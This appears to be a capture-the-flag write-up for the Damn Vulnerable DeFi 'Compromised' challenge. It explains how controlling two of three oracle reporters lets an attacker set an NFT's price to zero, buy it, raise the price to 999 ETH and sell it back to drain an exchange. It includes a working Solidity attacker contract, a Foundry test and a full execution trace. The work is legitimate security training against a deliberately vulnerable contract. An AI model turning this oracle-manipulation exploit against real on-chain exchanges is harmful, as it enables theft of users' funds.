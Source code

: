 # Compromised Challenge

## Challenge Overview:

A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at **999 ETH** each.

This price is fetched from an on-chain oracle, based on **three trusted sources** (reporters):
- `0x188Ea627E3531Db590e6f1D71ED83628d1933088`
- `0xA417D473c40a4d42BAd35f147c21eEa7973539D8`
- `0xab3600bF153A316dE44827e2473056d56B774a40`

Starting with just **0.1 ETH**, the goal is to:
- Drain all **999 ETH** from the `Exchange` contract
- Send it to the designated `recovery` address

---

## Vulnerability Explanation:

The price of the NFT (`DVNFT`) is determined by the **median value** submitted by the three trusted oracles. If an attacker controls or compromises **two of the three sources**, they can **fully control the median price**.

In this challenge, the two oracle addresses were compromised by leaked private keys encoded in the binary (in the real challenge). By simulating this compromise, we can:

1. Post a **very low price (0 ETH)** to buy the NFT for almost free
2. Post a **very high price (~999 ETH)** to sell it back and drain the exchange

This is a **classic oracle manipulation attack**.

---

## Vulnerable Code:

```solidity
// This function used to change the oracle price ,if more than half of the prices change then control the prices 
//@audit this function to restrict to change the prices
function postPrice(
        string calldata symbol,
        uint256 newPrice
    ) external onlyRole(TRUSTED_SOURCE_ROLE) {
        _setPrice(msg.sender, symbol, newPrice);
    }
    //calculate the median after changing the prices(this case we can change two prices using above functioon we can manipulate the prices)


```
Since there are only 3 sources, compromising any 2 of them gives full control over the oracle’s output.

### Exploit Strategy:

1. Use the compromised sources to post a price of 0 ETH

2. Call exchange.buyOne() to buy the NFT cheaply

3. Update the price via compromised sources to 999 ETH

4. Approve and sell the NFT back using exchange.sellOne()

5. Collect(Attacker contract)the ETH proceeds and send them to recovery
   
### Exploit Code:
```solidity
// test_compromised function 
 function test_compromised() public checkSolved {
        address source1 = sources[0];
        address source2 = sources[1];
        OracleAttacker oracleAttacker = new OracleAttacker{
            value: address(this).balance
        }(oracle, exchange, nft, recovery);

        vm.prank(source1);
        oracle.postPrice(symbols[0], 0);
        vm.prank(source2);
        oracle.postPrice(symbols[1], 0);

        oracleAttacker.buy(); //buy the NFT for 0 wei

        vm.prank(source1);
        oracle.postPrice(symbols[0], EXCHANGE_INITIAL_ETH_BALANCE);
        vm.prank(source2);
        oracle.postPrice(symbols[1], EXCHANGE_INITIAL_ETH_BALANCE);

        oracleAttacker.sell(); //sell the NFT
        oracleAttacker.recovery(EXCHANGE_INITIAL_ETH_BALANCE); //transfer all the balance to the recovery address
    }

    //Attacker contract to exploit
    contract OracleAttacker is IERC721Receiver {
    TrustfulOracle private oracle;
    Exchange private exchange;
    DamnValuableNFT private token;
    address Recovery;
    uint256 public nft_id;

    constructor(
        TrustfulOracle _oracle,
        Exchange _exchange,
        DamnValuableNFT _nft,
        address _recovery
    ) payable {
        oracle = _oracle;
        exchange = _exchange;
        token = _nft;
        Recovery = _recovery;
    }

    //buy and sell the NFT to hijack the tokens and send to the recovery account

    function buy() external payable {
        nft_id = exchange.buyOne{value: 1}(); //attacker contract buy the NFT for 0 wei
    }

    function sell() external {
        token.approve(address(exchange), nft_id);//transfer nft from this contract to exchange contract
        exchange.sellOne(nft_id);
    }

    function recovery(uint256 amount) external {
        payable(Recovery).transfer(amount); //transfer all the balance from this contract  to the recovery address
    }

    //used for  ERC721 tokens accepting in this contract 
    function onERC721Received(
        address /*operator*/,
        address /*from*/,
        uint256 /*tokenId*/,
        bytes calldata /*data*/
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }

    receive() external payable {}
}

```

### Proof of Exploit:

1. Exchange’s ETH balance becomes 0

2. Recovery address receives 999 ETH

3. Player does not own any NFTs

4. NFT price is restored back to 999 ETH

```yaml
nithin@ScateR:~/SCATERLABs/CTFs/Dam-vulnerable-Defi$ forge test --match-test test_compromised -vvvv
[⠒] Compiling...
No files changed, compilation skipped
Ran 1 test for test/compromised/Compromised.t.sol:CompromisedChallenge
[PASS] test_compromised() (gas: 674881)
Traces:
  [765681] CompromisedChallenge::test_compromised()
    ├─ [396323] → new OracleAttacker@0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
    │   └─ ← [Return] 1531 bytes of code
    ├─ [0] VM::prank(0x188Ea627E3531Db590e6f1D71ED83628d1933088)
    │   └─ ← [Return]
    ├─ [11977] TrustfulOracle::postPrice("DVNFT", 0)
    │   ├─ emit UpdatedPrice(source: 0x188Ea627E3531Db590e6f1D71ED83628d1933088, symbol: 0xc96df5ffc4b60595a3fe27a88456d253b504d73a51f5a4abf3dc9d13f057d1c9, oldPrice: 999000000000000000000 [9.99e20], newPrice: 0)
    │   └─ ← [Stop]
    ├─ [0] VM::prank(0xA417D473c40a4d42BAd35f147c21eEa7973539D8)
    │   └─ ← [Return]
    ├─ [11977] TrustfulOracle::postPrice("DVNFT", 0)
    │   ├─ emit UpdatedPrice(source: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8, symbol: 0xc96df5ffc4b60595a3fe27a88456d253b504d73a51f5a4abf3dc9d13f057d1c9, oldPrice: 999000000000000000000 [9.99e20], newPrice: 0)
    │   └─ ← [Stop]
    ├─ [126851] OracleAttacker::buy()
    │   ├─ [114616] Exchange::buyOne{value: 1}()
    │   │   ├─ [3418] DamnValuableNFT::symbol() [staticcall]
    │   │   │   └─ ← [Return] "DVNFT"
    │   │   ├─ [16213] TrustfulOracle::getMedianPrice("DVNFT") [staticcall]
    │   │   │   └─ ← [Return] 0
    │   │   ├─ [75167] DamnValuableNFT::safeMint(OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], tokenId: 0)
    │   │   │   ├─ [1259] OracleAttacker::onERC721Received(Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 0x0000000000000000000000000000000000000000, 0, 0x)
    │   │   │   │   └─ ← [Return] 0x150b7a02
    │   │   │   └─ ← [Return] 0
    │   │   ├─ [55] OracleAttacker::receive{value: 1}()
    │   │   │   └─ ← [Stop]
    │   │   ├─ emit TokenBought(buyer: OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], tokenId: 0, price: 0)
    │   │   └─ ← [Return] 0
    │   └─ ← [Stop]
    ├─ [0] VM::prank(0x188Ea627E3531Db590e6f1D71ED83628d1933088)
    │   └─ ← [Return]
    ├─ [5177] TrustfulOracle::postPrice("DVNFT", 999000000000000000000 [9.99e20])
    │   ├─ emit UpdatedPrice(source: 0x188Ea627E3531Db590e6f1D71ED83628d1933088, symbol: 0xc96df5ffc4b60595a3fe27a88456d253b504d73a51f5a4abf3dc9d13f057d1c9, oldPrice: 0, newPrice: 999000000000000000000 [9.99e20])
    │   └─ ← [Stop]
    ├─ [0] VM::prank(0xA417D473c40a4d42BAd35f147c21eEa7973539D8)
    │   └─ ← [Return]
    ├─ [5177] TrustfulOracle::postPrice("DVNFT", 999000000000000000000 [9.99e20])
    │   ├─ emit UpdatedPrice(source: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8, symbol: 0xc96df5ffc4b60595a3fe27a88456d253b504d73a51f5a4abf3dc9d13f057d1c9, oldPrice: 0, newPrice: 999000000000000000000 [9.99e20])
    │   └─ ← [Stop]
    ├─ [88512] OracleAttacker::sell()
    │   ├─ [25464] DamnValuableNFT::approve(Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 0)
    │   │   ├─ emit Approval(owner: OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], approved: Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], tokenId: 0)
    │   │   └─ ← [Stop]
    │   ├─ [61137] Exchange::sellOne(0)
    │   │   ├─ [1051] DamnValuableNFT::ownerOf(0) [staticcall]
    │   │   │   └─ ← [Return] OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f]
    │   │   ├─ [1332] DamnValuableNFT::getApproved(0) [staticcall]
    │   │   │   └─ ← [Return] Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]
    │   │   ├─ [1418] DamnValuableNFT::symbol() [staticcall]
    │   │   │   └─ ← [Return] "DVNFT"
    │   │   ├─ [6213] TrustfulOracle::getMedianPrice("DVNFT") [staticcall]
    │   │   │   └─ ← [Return] 999000000000000000000 [9.99e20]
    │   │   ├─ [29511] DamnValuableNFT::transferFrom(OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 0)
    │   │   │   ├─ emit Transfer(from: OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], to: Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], tokenId: 0)
    │   │   │   └─ ← [Stop]
    │   │   ├─ [4162] DamnValuableNFT::burn(0)
    │   │   │   ├─ emit Transfer(from: Exchange: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: 0x0000000000000000000000000000000000000000, tokenId: 0)
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] OracleAttacker::receive{value: 999000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   ├─ emit TokenSold(seller: OracleAttacker: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], tokenId: 0, price: 999000000000000000000 [9.99e20])
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [34939] OracleAttacker::recovery(999000000000000000000 [9.99e20])
    │   ├─ [0] recovery::fallback{value: 999000000000000000000}()
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(999000000000000000000 [9.99e20], 999000000000000000000 [9.99e20]) [staticcall]
    │   └─ ← [Return]
    ├─ [2954] DamnValuableNFT::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [6213] TrustfulOracle::getMedianPrice("DVNFT") [staticcall]
    │   └─ ← [Return] 999000000000000000000 [9.99e20]
    ├─ [0] VM::assertEq(999000000000000000000 [9.99e20], 999000000000000000000 [9.99e20]) [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.35ms (1.85ms CPU time)

Ran 1 test suite in 27.58ms (5.35ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

***For more info  this challenge visit Github***:  [Visit](https://github.com/SCATERLABs/CTFs/tree/5cba1e510839decccec214d3d6cc179ca6d1d131/Dam-vulnerable-Defi)